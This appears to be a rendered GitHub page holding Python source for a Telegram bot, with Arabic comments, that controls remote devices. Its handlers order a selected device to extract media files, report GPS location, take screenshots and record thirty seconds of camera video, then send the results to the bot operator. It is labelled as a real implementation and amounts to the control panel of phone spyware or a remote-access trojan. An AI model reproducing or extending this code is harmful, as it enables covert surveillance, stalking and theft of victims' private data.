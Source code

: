 ```python

# استخراج الوسائط - تنفيذ فعلي
@bot.message_handler(commands=['media'])
def backup_media(message):
    device_id = get_selected_device(message.from_user.id)
    if device_id:
        result = command_executor.send_command(device_id, "extract_media", {})
        if result.get('success'):
            media_files = result.get('data', {}).get('media_files', [])
            bot.reply_to(message, f"✅ تم استخراج {len(media_files)} ملف وسائط")
        else:
            bot.reply_to(message, f"❌ فشل في استخراج الوسائط: {result.get('error')}")
```

#### 2. **أوامر المراقبة - تنفيذ فعلي:**
```python
# الحصول على الموقع - تنفيذ فعلي
@bot.message_handler(commands=['location'])
def get_location(message):
    device_id = get_selected_device(message.from_user.id)
    if device_id:
        result = command_executor.send_command(device_id, "get_location", {})
        if result.get('success'):
            location = result.get('data', {}).get('location', {})
            bot.reply_to(message, f"📍 الموقع: {location.get('latitude')}, {location.get('longitude')}")
        else:
            bot.reply_to(message, f"❌ فشل في الحصول على الموقع: {result.get('error')}")

# التقاط الشاشة - تنفيذ فعلي
@bot.message_handler(commands=['screenshot'])
def take_screenshot(message):
    device_id = get_selected_device(message.from_user.id)
    if device_id:
        result = command_executor.send_command(device_id, "take_screenshot", {})
        if result.get('success'):
            screenshot_path = result.get('data', {}).get('screenshot_path')
            bot.send_photo(message.chat.id, open(screenshot_path, 'rb'))
        else:
            bot.reply_to(message, f"❌ فشل في التقاط الشاشة: {result.get('error')}")

# تسجيل الكاميرا - تنفيذ فعلي
@bot.message_handler(commands=['record'])
def record_camera(message):
    device_id = get_selected_device(message.from_user.id)
    if device_id:
        result = command_executor.send_command(device_id, "record_camera", {"duration": 30})
        if result.get('success'):
            video_path = result.get('data', {}).get('video_path')
            bot.send_video(message.chat.id, open(video_path, 'rb'))
        else:
            bot.reply_to(message, f"❌ فشل في تسجيل الكاميرا: {result.get('error')}")
```
